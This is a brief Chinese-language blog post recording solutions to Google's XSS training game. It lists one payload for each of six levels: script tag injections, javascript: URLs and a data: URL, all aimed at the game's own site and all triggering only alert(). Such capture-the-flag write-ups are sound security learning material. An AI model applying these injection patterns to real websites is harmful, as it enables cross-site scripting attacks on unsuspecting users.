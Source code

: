 ```yaml
---
title: "Google XSS"
gitinfo: true
share: true
comments: true
slug: "google_xss"
images: ["https://cdn.jsdelivr.net/gh/Borber/PublicPic1/headImg/head.png"] 
description: "挺好玩的"
tags: ["XSS", "WEB安全"]
date: 2020-06-14T12:01:04+08:00
---
```


记录

[谷歌 XSS 小游戏](https://xss-game.appspot.com/)

1. 第一关

   ```html
   </b><script>alert("Borber")</script>
   ```

2. 第二关

   ```html
   <p>hello <a name="n" href="javascript:alert('Borber')"><em>Borber</em></a></p>
   ```

3. 第三关

   ```html
   https://xss-game.appspot.com/level3/frame#4'><script>alert("Borber")</script>
   ```

4. 第四关

   ```html
   https://xss-game.appspot.com/level4/frame?timer=100'),alert('Borber
   ```

5. 第五关

   ```html
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("Borber")
   ```

6. 第六关

   ```html
   https://xss-game.appspot.com/level6/frame#data:text/plain,alert("Borber")
   ```

   